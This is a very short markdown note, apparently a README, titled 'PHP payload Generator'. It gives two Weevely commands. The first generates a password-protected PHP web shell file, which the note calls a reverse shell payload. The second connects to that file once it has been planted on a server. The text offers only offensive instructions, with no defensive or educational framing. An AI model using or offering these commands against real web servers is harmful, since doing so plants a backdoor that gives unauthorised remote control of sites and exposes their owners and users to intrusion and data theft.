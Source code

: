 #PHP payload Generator

##To generate reverse shell payload
```Weevely <password> /path/filename.php```
##To connect to the payload
```Weevely <URL> <Password>```